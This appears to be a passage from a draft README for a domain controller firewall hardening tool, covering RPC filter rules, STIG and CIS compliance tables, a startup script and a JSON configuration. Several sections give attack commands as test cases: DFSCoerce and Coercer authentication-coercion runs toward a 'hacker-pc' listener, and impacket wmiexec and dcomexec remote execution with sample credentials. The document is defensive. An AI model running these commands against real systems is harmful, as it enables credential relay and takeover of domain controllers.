The [\[MS-EVEN6\]: EventLog Remoting Protocol Version 6.0](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-even6/18000371-ae6d-45f7-95f3-249cbe2be39b) with UUID [F6BEAFF7-1E19-4FBB-9F8F-B89E2018337C](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-even6/3479d837-b759-4b13-9d5e-4c93eede7cb6) is used by the built-in `eventvwr.msc` console and the `wevtutil.exe` command line tool to remotely query and manage Windows event logs:

```shell
wevtutil.exe /r:contoso-dc qe Security /c:1 /f:text
```

An older version of the protocol with UUID called [\[MS-EVEN\]: EventLog Remoting Protocol]()

Ability to clear security event logs remotely.

```txt
# Block [MS-EVEN6]: EventLog Remoting Protocol Version 6.0
# Named pipe: \PIPE\eventlog
# This rule only blocks RPC over Named Pipes, while RPC over TCP is still allowed.
add rule layer=um actiontype=block filterkey=dedffabf-db89-4177-be77-1954aa2c0b95
add condition field=protocol matchtype=equal data=ncacn_np
add condition field=if_uuid matchtype=equal data=f6beaff7-1e19-4fbb-9f8f-b89e2018337c
add filter
```

#### \[MS-EVEN\]: EventLog Remoting Protocol

TODO

Legacy proto, Uses only named pipes

```txt
# Block [MS-EVEN]: EventLog Remoting Protocol
# Named pipe: \PIPE\eventlog
add rule layer=um actiontype=block filterkey=f7f68868-5f50-4cda-a18c-6a7a549652e7
add condition field=if_uuid matchtype=equal data=82273FDC-E32A-18C3-3F78-827929DC23EA
add filter
```

#### \[MS-DFSNM\]: Distributed File System (DFS): Namespace Management Protocol

Restrict to Domain Admins

```shell
python3 DFSCoerce/dfscoerce.py -u john -p 'Pa$$w0rd' -d contoso.com hacker-pc contoso-dc
```

```txt
# Restrict [MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol
# Named pipe: \PIPE\netdfs
# Limit access to Domain Admins only.
add rule layer=um actiontype=permit filterkey=43873c58-e130-4ffb-8858-d259a673a917
add condition field=if_uuid matchtype=equal data=4FC742E0-4A10-11CF-8273-00AA004AE673
add condition field=remote_user_token matchtype=equal data=D:(A;;CC;;;DA)
add filter

# Block MS-DFSNM by default
add rule layer=um actiontype=block filterkey=0a239867-73db-45e6-b287-d006fe3c8b18
add condition field=if_uuid matchtype=equal data=4FC742E0-4A10-11CF-8273-00AA004AE673
add filter
```

#### \[MS-RPRN\]: Print System Remote Protocol

https://learn.microsoft.com/en-us/troubleshoot/windows-client/printing/windows-11-rpc-connection-updates-for-print

TODO

```txt
# Block [MS-RPRN]: Print System Remote Protocol
# Named pipe: \PIPE\spoolss
# This rule only blocks RPC over Named Pipes,
# while RPC over TCP is still allowed on Windows 11, version 22H2
# and later versions of Windows.
add rule layer=um actiontype=block filterkey=7966512a-f2f4-4cb1-812d-d967ab83d28a
add condition field=protocol matchtype=equal data=ncacn_np
add condition field=if_uuid matchtype=equal data=12345678-1234-ABCD-EF00-0123456789AB
add filter
```

#### \[MS-EFSR\]: Encrypting File System Remote (EFSRPC) Protocol

```shell
coercer coerce --target-ip contoso-dc --listener-ip hacker-pc --username john --password 'Pa$$w0rd' --domain contoso.com  --always-continue
```

```txt
# Restrict [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol
# Named pipe: \PIPE\lsarpc
# Require Kerberos authentication and packet encryption.
# Not bulletproof, but blocks most hacktools.
add rule layer=um actiontype=permit filterkey=d71d00db-3eef-4935-bedf-20cf628abd9e
add condition field=if_uuid matchtype=equal data=c681d488-d850-11d0-8c52-00c04fd90f7e
add condition field=auth_type matchtype=equal data=16
add condition field=auth_level matchtype=equal data=6
add filter

# Block MS-EFSR over \PIPE\lsarpc by default
add rule layer=um actiontype=block filterkey=3a4cce27-a7fa-4248-b8b8-ef6439a2c0ff
add condition field=if_uuid matchtype=equal data=c681d488-d850-11d0-8c52-00c04fd90f7e
add filter

# Restrict [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol
# Named pipe: \PIPE\efsrpc
# Require Kerberos authentication and packet encryption.
# Not bulletproof, but blocks most hacktools.
add rule layer=um actiontype=permit filterkey=c5cf8020-c83c-4803-9241-8c7f3b10171f
add condition field=if_uuid matchtype=equal data=df1941c5-fe89-4e79-bf10-463657acf44d
add condition field=auth_type matchtype=equal data=16
add condition field=auth_level matchtype=equal data=6
add filter

# Block MS-EFSR over \PIPE\efsrpc by default
add rule layer=um actiontype=block filterkey=9ad23a91-085d-4f99-ae15-85e0ad801278
add condition field=if_uuid matchtype=equal data=df1941c5-fe89-4e79-bf10-463657acf44d
add filter
```

#### \[MS-DNSP\]: Domain Name Service (DNS) Server Management Protocol

TODO

```txt
# Block [MS-DNSP]: Domain Name Service (DNS) Server Management Protocol, Named pipe: \PIPE\DNSSERVER
# This rule only blocks RPC over Named Pipes, while RPC over TCP is still allowed.
add rule layer=um actiontype=block filterkey=50754fe4-aa2d-42ff-8196-e90ea8fd2527
add condition field=protocol matchtype=equal data=ncacn_np
add condition field=if_uuid matchtype=equal data=50abc2a4-574d-40b3-9d66-ee4fd5fba076
add filter
```

#### \[MS-WMI\]: Windows Management Instrumentation Remote Protocol

```powershell
Get-WmiObject -ClassName Win32_OperatingSystem -ComputerName contoso-dc
```

```shell
impacket-wmiexec 'contoso/Admin:Pa$$w0rd@contoso-dc' hostname
```

Solved using Defender ASR rules.

TODO: Test service creation using WMI

#### DCOM

TODO: Block command execution over DCOM over named pipes (ShellWindows, ShellBrowserWindow, and MMC20 objects)

```shell
impacket-dcomexec 'contoso/Admin:Pa$$w0rd@contoso-dc' hostname
```

TODO: Does it event work?

#### \[MS-TSTS\]: Terminal Services Terminal Server Runtime Interface Protocol

https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-tsts/1eb45af1-94f1-4c42-9e13-dd0a018646fd

TODO: Block RDP-related protocols over named pipes?

#### \[MS-RSP\]: Remote Shutdown Protocol

https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rsp/6dfeb978-7a02-4826-b537-a1760fbf8074

UUID: d95afe70-a6d5-4259-822e-2c84da1ddb0d
ncacn_np:127.0.0.1[\\PIPE\\InitShutdown]

UUID: 76f226c3-ec14-4325-8a99-6a46348418af
ncacn_np:127.0.0.1[\\PIPE\\InitShutdown]

#### Further Protocol Considerations

> [!NOTE]
> TODO: Firewall remote management?

#### Additional Reading on RPC

- [MSRPC-To-ATT&CK](https://github.com/jsecurity101/MSRPC-to-ATTACK)
- [A Definitive Guide to the Remote Procedure Call (RPC) Filter](https://www.akamai.com/blog/security/guide-rpc-filter#using)
- [server22_rpc_servers_scrape.csv](https://github.com/akamai/akamai-security-research/blob/main/rpc_toolkit/rpc_interface_lists/server22_rpc_servers_scrape.csv)

### Distribution Contents

The table below contains a list of all files that are part of the solution, with their respective paths and brief descriptions.

| File path                                                   | Description |
|-------------------------------------------------------------|----------------------------------------------------------------------------------|
| `GPOReport.html`                                            | Sample Group Policy HTML report with all GPO settings configured by the tool |
| `inbound-builtin-firewall-rules.csv`                        | List of all built-in FW rules utilized (not necessarily enabled) by the tool |
| `inbound-custom-firewall-rules.csv`                         | List of all custom FW rules utilized by the tool |
| `GPO\Set-ADDSFirewallPolicy.ps1`                            | PowerShell script for deploying the DC Firewall GPO |
| `GPO\Set-ADDSFirewallPolicy.Starter.json`                   | Initial minimalistic configuraton file that should be renamed to `Set-ADDSFirewallPolicy.json` and edited before the `Set-ADDSFirewallPolicy.ps1` script is executed |
| `GPO\Set-ADDSFirewallPolicy.Sample.json`                    | Sample configuration file containing all supported configurations options |
| `GPO\Set-ADDSFirewallPolicy.schema.json`                    | Schema file for the JSON configuration files |
| `GPO\RpcNamedPipesFilters.txt`                              | `netsh.exe` script for creating RPC filters |
| `GPO\PolicyDefinitions\DomainControllerFirewall.admx`       | GPO template file for [custom configuration](#administrative-templates) settings |
| `GPO\PolicyDefinitions\MSS-legacy.admx`                     | GPO template file for [MSS (Legacy)] settings |
| `GPO\PolicyDefinitions\SecGuide.admx`                       | GPO template file for [MS Security Guide] settings |
| `GPO\PolicyDefinitions\en-US\DomainControllerFirewall.adml` | English localization file for the `DomainControllerFirewall.admx` template |
| `GPO\PolicyDefinitions\en-US\MSS-legacy.adml`               | English localization file for the `MSS-legacy.admx` template |
| `GPO\PolicyDefinitions\en-US\SecGuide.adml`                 | English localization file for the `SecGuide.admx` template |

[MSS (Legacy)]: https://techcommunity.microsoft.com/t5/microsoft-security-baselines/the-mss-settings/ba-p/701055
[MS Security Guide]: https://learn.microsoft.com/en-us/deployoffice/security/security-baseline#ms-security-guide-administrative-template

### Security Standards Compliance

#### Security Technical Implementation Guide (STIG)

The [Security Technical Implementation Guide (STIG)](https://public.cyber.mil/stigs/) for Microsoft Windows Defender Firewall with Advanced Security was developed and [published](https://dl.dod.cyber.mil/wp-content/uploads/stigs/zip/U_MS_Windows_Defender_Firewall_V2R2_STIG.zip) by [Defense Information Systems Agency (DISA)](https://www.disa.mil/) as a tool to improve the security of [Department of Defense (DOD)](https://www.defense.gov/) information systems.



Our firewall configuration is compliant with the majority of the STIG requirements out-of-the-box. The [configuration file](#configuration-file) can easily be modified to achieve full compliance. The following table of requirements corresponds to the Version 2, Release 2 of the STIG, published on November 9<sup>th</sup>, 2023.

| Group ID   | Severity | Rule Title                                                    | Compliance                      |
|------------|----------|---------------------------------------------------------------|---------------------------------|
| [V-241989] | CAT II   | Windows Defender Firewall with Advanced Security must be enabled when connected to a domain. | ☑ |
| [V-241990] | CAT II   | Windows Defender Firewall with Advanced Security must be enabled when connected to a private network. | ☑ |
| [V-241991] | CAT II   | Windows Defender Firewall with Advanced Security must be enabled when connected to a public network. | ☑ |
| [V-241992] | CAT I    | Windows Defender Firewall with Advanced Security must block unsolicited inbound connections when connected to a domain. | ☑ |
| [V-241993] | CAT II   | Windows Defender Firewall with Advanced Security must allow outbound connections, unless a rule explicitly blocks the connection when connected to a domain. | ☑ |
| [V-241994] | CAT III  | Windows Defender Firewall with Advanced Security log size must be configured for domain connections. | ☐ [LogMaxSizeKilobytes](#logmaxsizekilobytes) must be set to at least `16384`. |
| [V-241995] | CAT III  | Windows Defender Firewall with Advanced Security must log dropped packets when connected to a domain. | ☐ [LogDroppedPackets](#logdroppedpackets) must be set to `true`. |
| [V-241996] | CAT III  | Windows Defender Firewall with Advanced Security must log successful connections when connected to a domain. | ☐ [LogAllowedPackets](#logallowedpackets) must be set to `true`. |
| [V-241997] | CAT I    | Windows Defender Firewall with Advanced Security must block unsolicited inbound connections when connected to a private network. | ☑ |
| [V-241998] | CAT II   | Windows Defender Firewall with Advanced Security must allow outbound connections, unless a rule explicitly blocks the connection when connected to a private network. | ☑ |
| [V-241999] | CAT III  | Windows Defender Firewall with Advanced Security log size must be configured for private network connections. | ☐ [LogMaxSizeKilobytes](#logmaxsizekilobytes) must be at least `16384`. |
| [V-242000] | CAT III  | Windows Defender Firewall with Advanced Security must log dropped packets when connected to a private network. | ☐ [LogDroppedPackets](#logdroppedpackets) must be set to `true`. |
| [V-242001] | CAT III  | Windows Defender Firewall with Advanced Security must log successful connections when connected to a private network. | ☐ [LogAllowedPackets](#logallowedpackets) must be set to `true`. |
| [V-242002] | CAT I    | Windows Defender Firewall with Advanced Security must block unsolicited inbound connections when connected to a public network. | ☑ |
| [V-242003] | CAT II   | Windows Defender Firewall with Advanced Security must allow outbound connections, unless a rule explicitly blocks the connection when connected to a public network. | ☑ |
| [V-242004] | CAT II   | Windows Defender Firewall with Advanced Security local firewall rules must not be merged with Group Policy settings when connected to a public network. | ☑ |
| [V-242005] | CAT II   | Windows Defender Firewall with Advanced Security local connection rules must not be merged with Group Policy settings when connected to a public network. | ☐ [EnableLocalIPsecRules](#enablelocalipsecrules) must be set to `false`. |
| [V-242006] | CAT III  | Windows Defender Firewall with Advanced Security log size must be configured for public network connections. | ☐ [LogMaxSizeKilobytes](#logmaxsizekilobytes) must be at least `16384`. |
| [V-242007] | CAT III  | Windows Defender Firewall with Advanced Security must log dropped packets when connected to a public network. | ☐ [LogDroppedPackets](#logdroppedpackets) must be set to `true`. |
| [V-242008] | CAT III  | Windows Defender Firewall with Advanced Security must log successful connections when connected to a public network. | ☐ [LogAllowedPackets](#logallowedpackets) must be set to `true`. |
| [V-242009] | CAT II   | Inbound exceptions to the firewall on domain workstations must only allow authorized remote management hosts. | ☐ [ManagementAddresses](#managementaddresses) must be configured properly. |

[V-241989]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-241989
[V-241990]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-241990
[V-241991]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-241991
[V-241992]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-241992
[V-241993]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-241993
[V-241994]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-241994
[V-241995]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-241995
[V-241996]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-241996
[V-241997]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-241997
[V-241998]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-241998
[V-241999]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-241999
[V-242000]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-242000
[V-242001]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-242001
[V-242002]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-242002
[V-242003]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-242003
[V-242004]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-242004
[V-242005]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-242005
[V-242006]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-242006
[V-242007]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-242007
[V-242008]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-242008
[V-242009]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-242009

#### Center for Internet Security (CIS) Benchmark

[CIS Benchmarks](https://www.cisecurity.org/cis-benchmarks) are created using a consensus review process comprised of a global community of subject matter experts. The process combines real world experience with data-based information to create technology specific guidance to assist users to secure their environments. Consensus participants provide perspective from a diverse set of backgrounds including consulting, software development, audit and compliance, security research, operations, government, and legal.

{ width=200px }

Our firewall configuration is compliant with the majority of the [CIS Microsoft Windows Server 2022 v2.0.0 L1 DC](https://www.tenable.com/audits/CIS_Microsoft_Windows_Server_2022_Benchmark_v2.0.0_L1_DC) requirements out-of-the-box. The configuration file can easily be modified to achieve full compliance, with one negligible exception.

| CIS Title | Compliance |
|------------------------------------|-----------|
| (L1) Ensure Windows Firewall: Domain: Firewall state is set to On (recommended)| ☑ |
| (L1) Ensure Windows Firewall: Domain: Inbound connections is set to Block (default)| ☑ |
| (L1) Ensure Windows Firewall: Domain: Settings: Display a notification is set to No| ☑ |
| (L1) Ensure Windows Firewall: Domain: Logging: Name is set to %SystemRoot%\\System32\\logfiles\\firewall\\domainfw.log | ☐ Partially[^cis-partially] |
| (L1) Ensure Windows Firewall: Domain: Logging: Size limit (KB) is set to 16,384 KB or greater | ☐ [LogMaxSizeKilobytes](#logmaxsizekilobytes) must be set to at least `16384`. |
| (L1) Ensure Windows Firewall: Domain: Logging: Log dropped packets is set to Yes| ☐ [LogDroppedPackets](#logdroppedpackets) must be set to `true`. |
| (L1) Ensure Windows Firewall: Domain: Logging: Log successful connections is set to Yes | ☐ [LogAllowedPackets](#logallowedpackets) must be set to `true`.  |
| (L1) Ensure Windows Firewall: Private: Firewall state is set to On (recommended) | ☑ |
| (L1) Ensure Windows Firewall: Private: Inbound connections is set to Block (default) | ☑ |
| (L1) Ensure Windows Firewall: Private: Settings: Display a notification is set to No| ☑ |
| (L1) Ensure Windows Firewall: Private: Logging: Name is set to %SystemRoot%\\System32\\logfiles\\firewall\\privatefw.log | ☐ Partially[^cis-partially] |
| (L1) Ensure Windows Firewall: Private: Logging: Size limit (KB) is set to 16,384 KB or greater | ☐ [LogMaxSizeKilobytes](#logmaxsizekilobytes) must be set to at least `16384`. |
| (L1) Ensure Windows Firewall: Private: Logging: Log dropped packets is set to Yes | ☐ [LogDroppedPackets](#logdroppedpackets) must be set to `true`. |
| (L1) Ensure Windows Firewall: Private: Logging: Log successful connections is set to Yes| ☐ [LogAllowedPackets](#logallowedpackets) must be set to `true`.  |
| (L1) Ensure Windows Firewall: Public: Firewall state is set to On (recommended) | ☑ |
| (L1) Ensure Windows Firewall: Public: Inbound connections is set to Block (default) | ☑ |
| (L1) Ensure Windows Firewall: Public: Settings: Display a notification is set to No| ☑ |
| (L1) Ensure Windows Firewall: Public: Settings: Apply local firewall rules is set to No| ☑ |
| (L1) Ensure Windows Firewall: Public: Settings: Apply local connection security rules is set to No| ☐ [EnableLocalIPsecRules](#enablelocalipsecrules) must be set to `false`. |
| (L1) Ensure Windows Firewall: Public: Logging: Name is set to %SystemRoot%\\System32\\logfiles\\firewall\\publicfw.log | ☐ Partially[^cis-partially] |
| (L1) Ensure Windows Firewall: Public: Logging: Size limit (KB) is set to 16,384 KB or greater | ☐ [LogMaxSizeKilobytes](#logmaxsizekilobytes) must be set to at least `16384`. |
| (L1) Ensure Windows Firewall: Public: Logging: Log dropped packets is set to Yes| ☐ [LogDroppedPackets](#logdroppedpackets) must be set to `true`. |
| (L1) Ensure Windows Firewall: Public: Logging: Log successful connections is set to Yes | ☐ [LogAllowedPackets](#logallowedpackets) must be set to `true`.  |

[^cis-partially]: All the profiles share the same log file. See the [LogFilePath](#logfilepath) setting.

#### Microsoft Security Compliance Toolkit

The [Security Compliance Toolkit (SCT)](https://learn.microsoft.com/en-us/windows/security/operating-system-security/device-management/windows-security-configuration-framework/security-compliance-toolkit-10) is a set of tools that allows enterprise security administrators to download, analyze, test, edit, and store Microsoft-recommended security configuration baselines for Windows and other Microsoft products.

{ width=200px }

Our firewall configuration is compliant with the majority of the [SCT Windows Server 2022 Security Baseline](https://www.microsoft.com/en-us/download/details.aspx?id=55319) requirements out-of-the-box. The configuration file can easily be modified to achieve full compliance.

| Firewall Policy Path | Setting Name | Win 2016 DC Requirement | Win 2022 DC Requirement | Compliance |
|-------------------|----------------|-----------|-----------|---------------------|
| Domain Profile\\Logging | Log dropped packets | Yes | Not defined | ☐ [LogDroppedPackets](#logdroppedpackets) must be set to `true`. |
| Domain Profile\\Logging | Log successful packets | Yes | Not defined | ☐ [LogAllowedPackets](#logallowedpackets) must be set to `true`. |
| Domain Profile\\Logging | Size limit (KB) | 16384 | Not defined | ☐ [LogMaxSizeKilobytes](#logmaxsizekilobytes) must be set to at least `16384`. |
| Domain Profile\\Settings | Display a notification | No | Not defined | ☑ |
| Domain Profile\\State | Firewall state | On | On | ☑ |
| Domain Profile\\State | Inbound connections | Block | Block | ☑ |
| Domain Profile\\State | Outbound connections | Allow | Allow | ☑ |
| Private Profile\\Logging | Log dropped packets | Yes | Not defined | ☐ [LogDroppedPackets](#logdroppedpackets) must be set to `true`. |
| Private Profile\\Logging | Log successful packets | Yes | Not defined | ☐ [LogAllowedPackets](#logallowedpackets) must be set to `true`. |
| Private Profile\\Logging | Size limit (KB) | 16384 | Not defined | ☐ [LogMaxSizeKilobytes](#logmaxsizekilobytes) must be set to at least `16384`. |
| Private Profile\\Settings | Display a notification | No | Not defined | ☑ |
| Private Profile\\State | Firewall state | On | On | ☑ |
| Private Profile\\State | Inbound connections | Block | Block | ☑ |
| Private Profile\\State | Outbound connections | Allow | Allow | ☑ |
| Public Profile\\Logging | Log dropped packets | Yes | Not defined| ☐ [LogDroppedPackets](#logdroppedpackets) must be set to `true`. |
| Public Profile\\Logging | Log successful packets | Yes | Not defined | ☐ [LogAllowedPackets](#logallowedpackets) must be set to `true`. |
| Public Profile\\Logging | Size limit (KB) | 16384 | Not defined| ☐ [LogMaxSizeKilobytes](#logmaxsizekilobytes) must be set to at least `16384`. |
| Public Profile\\Settings | Apply local connection security rules | No | N/A | ☐ [EnableLocalIPsecRules](#enablelocalipsecrules) must be set to `false`. |
| Public Profile\\Settings | Apply local firewall rules | No | Not defined | ☑ |
| Public Profile\\Settings | Display a notification | No | Not defined | ☑ |
| Public Profile\\State | Firewall state | On | On | ☑ |
| Public Profile\\State | Inbound connections | Block | Block | ☑ |
| Public Profile\\State | Outbound connections | Allow | Allow | ☑ |

## Group Policy Object Contents

### Firewall Configuration

### Inbound Firewall Rules

### Registry Settings

Managed/Unmanaged

### Administrative Templates

The following ADMX and their respective ADML (in English) are copied to Central Store if it exists:

`DomainControllerFirewall.admx`

- Contains template for configuration of the following settings:
  - [NTDS Static Port](#ntdsstaticport)  
  Computer Configuration / Administrative Templates / RPC Static Ports / Domain Controller: Active Directory RPC static port
  - [Netlogon Static Port](#netlogonstaticport)  
  Computer Configuration / Administrative Templates / RPC Static Ports / Domain Controller: Netlogon static port
  - [FRS Static Port](#frsstaticport)  
  Computer Configuration / Administrative Templates / RPC Static Ports / Domain Controller: File Replication Service (FRS) static port
  - [mDNS Configuration](#disablemdns)  
Computer Configuration / Administrative Templates / Network / DNS Client / Turn off Multicast DNS (mDNS) client

`MSS-legacy.admx`

- Contains template for configuration of all the settings stored in:  
Computer Configuration / Administrative Templates / MSS (Legacy)

`SecGuide.admx`

- Contains template for configuration of all the settings stored in:  
Computer Configuration / Administrative Templates / MS Security Guide

### Startup Script

Startup script is used to configure some of the required settings, that are not easily configurable through Group Policy.  
`FirewallConfiguration.bat` script, is automatically generated, based on the configuration defined in `Set-ADDSFirewallPolicy.json`.  
If enabled in the .json file, the script will execute the following actions:

- Configure WMI static port
- Installs DFS Management tools, if not already present on the machine
- Configure DFSR static port
- Creates firewall log and sets the permissions on it
- Registers RPC filters, defined in `RpcNamedPipesFilters.txt`

> [!WARNING]
> Due to the [GPO foreground processing](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/jj573586(v=ws.11)) requirement, when applying a startup script, the server needs to be restarted to apply the configuration items in the script.

#### WMI static port

The script will move the WMI service to a standalone process listening on TCP port 24158 with authentication level set to RPC_C_AUTHN_LEVEL_PKT_PRIVACY.

```bat
winmgmt.exe /standalonehost 6
```

#### DFSR static port

If the server doesn't have DFS Management tools installed, the script will istall it.

```bat
if not exist "%SystemRoot%\system32\dfsrdiag.exe" (
  dism.exe /Online /Enable-Feature /FeatureName:DfsMgmt
)
```

Next, it will configure the DFSR to use static port.

```bat
dfsrdiag.exe StaticRPC /Port:5722
```

#### Firewall Log File


Log file is not created by the GPO, ACLs need to be configured through command line.

```bat
netsh.exe advfirewall set allprofiles logging filename "%systemroot%\system32\logfiles\firewall\pfirewall.log"
```

#### RPC Filters Script

  

The script will register all RPC filters defined in `RpcNamedPipesFilters.txt` file, which is located in the same path as the `FirewallConfiguration.bat`, in the "Startup" folder under the recently created firewall GPO.

```bat
netsh.exe -f "\\contoso.com\SysVol\contoso.com\Policies\{37CB7204-5767-4AA7-8E85-D29FEBDFF6D6}\Machine\Scripts\Startup\RpcNamedPipesFilters.txt"
```

#### Sample Startup Script

```shell
@ECHO OFF
REM This script is managed by the Set-ADDSFirewallPolicy.ps1 PowerShell script.

echo Move the WMI service to a standalone process listening on TCP port 24158 with authentication level set to RPC_C_AUTHN_LEVEL_PKT_PRIVACY.
winmgmt.exe /standalonehost 6

echo Install the dfsrdiag.exe tool if absent.
if not exist "%SystemRoot%\system32\dfsrdiag.exe" (
    dism.exe /Online /Enable-Feature /FeatureName:DfsMgmt
)

echo Set static RPC port for DFS Replication.
dfsrdiag.exe StaticRPC /Port:5722

echo Create the firewall log file and configure its DACL.
netsh.exe advfirewall set allprofiles logging filename "%systemroot%\system32\logfiles\firewall\pfirewall.log"

echo Register the RPC filters.
netsh.exe -f "\\contoso.com\SysVol\contoso.com\Policies\{37CB7204-5767-4AA7-8E85-D29FEBDFF6D6}\Machine\Scripts\Startup\RpcNamedPipesFilters.txt"
```

## Configuration

### Configuration File

All settings that are configurable are stored in `Set-ADDSFirewallPolicy.json`.  
It is essential to review them and change as necessary for your environment.

> [!CAUTION]
> Improper configuration can cause network outages in your environment!

Note, that “Default value” in the configuration items below, refers to default value, that is set in the `Set-ADDSFirewallPolicy.json`, not Windows system defaults.

```json
{
  "$schema": "Set-ADDSFirewallPolicy.schema.json",
  "GroupPolicyObjectName": "Domain Controller Firewall",
  "GroupPolicyObjectComment": "This GPO is managed by the Set-ADDSFirewallPolicy.ps1 PowerShell script.",
  "LogDroppedPackets": true,
  "LogAllowedPackets": false,
  "LogFilePath": "%systemroot%\\system32\\logfiles\\firewall\\pfirewall.log",
  "LogMaxSizeKilobytes": 128,
  "ClientAddresses": [ "10.220.2.0/24", "10.220.4.0/24", "10.220.5.0/24", "10.220.6.0/24" ],
  "ManagementAddresses": [ "10.220.3.0/24" ],
  "DomainControllerAddresses": [ "10.220.1.0/24" ],
  "NtdsStaticPort": 38901,
  "NetlogonStaticPort": 38902,
  "FrsStaticPort": 38903,
  "DfsrStaticPort": 5722,
  "WmiStaticPort": true,
  "DisableNetbiosBroadcasts": true,
  "DisableLLMNR": true,
  "DisableMDNS": true,
  "EnableServiceManagement": true,
  "EnableEventLogManagement": true,
  "EnableScheduledTaskManagement": true,
  "EnableWindowsRemoteManagement": true,
  "EnablePerformanceLogAccess": true,
  "EnableOpenSSHServer": false,
  "EnableRemoteDesktop": true,
  "EnableDiskManagement": true,
  "EnableBackupManagement": true,
  "EnableFirewallManagement": false,
  "EnableComPlusManagement": false,
  "EnableLegacyFileReplication": false,
  "EnableNetbiosNameService": false,
  "EnableNetbiosDatagramService": false,
  "EnableNetbiosSessionService": false,
  "EnableWINS": false,
  "EnableNetworkProtection": true,
  "BlockWmiCommandExecution": true,
  "EnableRpcFilters": true,
  "EnableLocalIPsecRules": false
}
```

TODO: Intellisense support:

